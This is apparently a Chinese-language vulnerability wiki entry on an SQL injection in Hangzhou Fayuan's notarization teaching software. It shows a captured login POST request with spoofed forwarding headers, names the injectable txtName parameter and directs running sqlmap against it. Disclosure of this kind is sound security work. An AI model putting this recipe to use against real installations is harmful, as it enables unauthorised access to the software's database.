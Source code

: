 # 杭州法源软件 公证实务教学软件 SQL注入漏洞

## 漏洞描述

杭州法源软件 公证实务教学软件 存在SQL注入漏洞



## 漏洞影响

> [!NOTE]
>
> 杭州法源软件 公证实务教学软件



## FOFA

> [!NOTE]
>
> FOFA暂时未收录任何网站

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/fy-4.png)

登录抓取请求包

```
POST /JusNotary/ HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 219
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=54zwf05sd1g4zyfpiuxxdmuc
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUKMTE5NTI5NDc1Ng8WAh4TVmFsaWRhdGVSZXF1ZXN0TW9kZQIBZGTTkYMK0k4DlIElq0ua0zvxEhpFH8rCzVrUscEhlVc9pw%3D%3D&__VIEWSTATEGENERATOR=1B0004A3&txtName=123&txtPwd=123&btnSubmit=+
```

其中注入的参数为 POST数据中的 **txtName** 参数, 保存为文件使用 Sqlmap跑一下

![](http://wikioss.peiqi.tech/vuln/fy-5.png)

![](http://wikioss.peiqi.tech/vuln/fy-6.png)